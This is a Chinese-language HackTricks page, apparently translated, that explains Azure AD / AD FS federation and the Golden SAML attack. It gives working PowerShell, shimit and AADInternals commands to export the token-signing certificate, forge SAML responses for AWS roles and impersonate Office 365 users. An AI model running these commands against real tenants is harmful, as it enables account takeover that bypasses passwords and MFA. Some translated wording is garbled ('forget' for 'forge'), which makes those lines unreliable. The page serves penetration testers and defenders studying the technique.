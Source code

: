 # 联合

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**联合**是一组建立了**信任**的**域**集合。信任级别可能有所不同，但通常包括**身份验证**，几乎总是包括**授权**。典型的联合可能包括一组已建立**信任**以便**共享访问**一组资源的**组织**。

您可以将您的**本地**环境**与Azure AD联合**，并将此联合用于身份验证和授权。这种登录方法确保所有用户的**身份验证发生在本地**。此方法允许管理员实施更严格的访问控制级别。可使用**AD FS**和PingFederate进行联合。

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

基本上，在联合中，所有**身份验证**发生在**本地**环境中，用户可以通过使用他们的**本地凭据**在所有受信任的环境中体验SSO。因此，用户可以通过使用他们的**本地凭据**访问**云**应用程序。

**安全断言标记语言（SAML）**用于在提供者之间**交换**所有身份验证和授权**信息**。

在任何联合设置中，有三方：

* 用户或客户端
* 身份提供者（IdP）
* 服务提供者（SP）

（图片来源：https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps）

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. 首先，用户访问应用程序（服务提供者或SP，例如AWS控制台或vSphere Web客户端）。根据具体实现，此步骤可能被绕过，直接将客户端重定向到IdP（身份提供者）。
2. 随后，SP识别适当的IdP（例如AD FS，Okta）进行用户身份验证。然后，它创建一个SAML（安全断言标记语言）AuthnRequest并将客户端重定向到所选的IdP。
3. IdP接管，对用户进行身份验证。身份验证后，IdP会生成一个SAMLResponse，并通过用户将其转发给SP。
4. 最后，SP评估SAMLResponse。如果验证成功，表示与IdP建立了信任关系，用户将获得访问权限。这标志着登录过程的完成，允许用户使用服务。

**如果您想了解更多关于SAML身份验证和常见攻击的信息，请访问：**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## 枢纽

* AD FS是基于声明的身份模型。
* “..声明只是关于用户的陈述（例如，名称，身份，组），主要用于授权对Internet上任何位置的基于声明的应用程序的访问。”
* 用户的声明写在SAML令牌中，然后由IdP签名以提供机密性。
* 用户由ImmutableID标识。它是全局唯一的，并存储在Azure AD中。
* ImmutableID存储在本地作为ms-DS-ConsistencyGuid的用户和/或可以从用户的GUID派生。
* 更多信息请参阅[https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML攻击：**

* 在ADFS中，SAML响应由令牌签名证书签名。
* 如果证书被泄露，就有可能作为在Azure AD中同步的任何用户进行身份验证！
* 就像我们的PTA滥用一样，更改用户的密码或多重身份验证都不会产生任何影响，因为我们正在伪造身份验证响应。
* 证书可以从具有DA权限的AD FS服务器中提取，然后可以从任何连接到互联网的计算机中使用。
* 更多信息请参阅[https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

**身份提供者（IdP）**生成**SAMLResponse**以授权用户登录的过程至关重要。根据IdP的具体实现，**响应**可能使用**IdP的私钥**进行**签名**或**加密**。此过程使服务提供者（SP）能够确认SAMLResponse的真实性，确保它确实是由受信任的IdP发出的。

可以将其与[黄金票据攻击](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket)进行类比，其中用于验证用户身份和权限的关键（用于黄金票据的KRBTGT，用于黄金SAML的令牌签名私钥）可以被操纵以**伪造身份验证对象**（TGT或SAMLResponse）。这允许冒充任何用户，授予对SP的未经授权访问。

Golden SAML具有一定的优势：

* 它们可以**远程创建**，无需成为所讨论的域或联合的一部分。
* 即使启用了**双因素身份验证（2FA）**，它们仍然有效。
* 令牌签名**私钥不会自动更新**。
* **更改用户密码不会使**已生成的SAML**失效**。

#### AWS + AD FS + Golden SAML

[Active Directory Federation Services (AD FS)](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\))是一项Microsoft服务，促进了受信任的商业合作伙伴之间的**身份信息安全交换**（联合）。它基本上允许域服务与联合中的其他服务提供商共享用户身份。

通过AWS信任被入侵的域（在联合中），可以利用此漏洞潜在地**获取AWS环境中的任何权限**。攻击需要**用于签署SAML对象的私钥**，类似于黄金票据攻击中需要KRBTGT。访问AD FS用户帐户足以获取此私钥。

执行Golden SAML攻击的要求包括：

* **令牌签名私钥**
* **IdP公钥证书**
* **IdP名称**
* **角色名称（要承担的角色）**
* 域\用户名
* AWS中的角色会话名称
* 亚马逊账户ID

_只有粗体项是必需的。其他项目可以根据需要填写。_

要获取**私钥**，需要访问**AD FS用户帐户**。然后，可以使用诸如[mimikatz](https://github.com/gentilkiwi/mimikatz)之类的工具从个人存储中**导出私钥**。要收集其他所需信息，可以使用Microsoft.Adfs.Powershell snapin，确保您以ADFS用户身份登录。
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
有了所有信息，可能会忘记一个有效的SAMLResponse，作为您想要模拟的用户使用[**shimit**](https://github.com/cyberark/shimit)**:**
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### 本地 -> 云
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
也可以创建仅云用户的ImmutableID并冒充他们
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
